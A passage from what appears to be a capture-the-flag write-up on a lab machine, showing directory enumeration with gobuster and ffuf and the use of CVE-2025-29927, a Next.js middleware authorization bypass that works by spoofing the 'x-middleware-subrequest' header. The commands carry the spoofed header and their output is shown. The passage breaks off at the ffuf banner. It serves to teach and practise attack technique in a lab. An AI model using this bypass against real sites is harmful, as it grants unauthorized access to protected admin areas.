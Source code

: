 ```console
/signin               (Status: 200) [Size: 3481]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

The directories with the `307-status code` which uses the proper authorization in the application.

Now let's recon and taking out information of the application like Tech stack/web-server.
By the `Wappalyzer` it shows the results the web application is tu build up on the `nextjs` on the version `nextjs 15.2.2`.

* Finding the latest CVE to this affected version `nextjs 15.2.2`
* **CVE-2025-29927 Nextjs Middleware Authorization bypass**: Next.js uses a special internal HTTP header, `x-middleware-subrequest`, to prevent infinite recursion when middleware is called.
An attacker can spoof this header in an external request, which tricks the Next.js server into treating it as an internal subrequest.
The framework's logic then skips the middleware, allowing the attacker to bypass critical security checks and access restricted areas, such as an `admin panel`. 

By adding the Header,got another endpoint result

```console

$ gobuster dir -u http://previous.htb/api -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://previous.htb/api
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 308) [Size: 12] [--> /api/cgi-bin]
/download             (Status: 400) [Size: 28]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
Now, test this url `http://previous.htb/api/download/FUZZ?=x` using Fuzzing for finding hidden details or any other attack surface.

```console

$ ffuf -u 'http://previous.htb/api/download?FUZZ=abc' -w /opt/SecLists/Discovery/Web-Content/common.txt -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -mc all -fw 2

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
```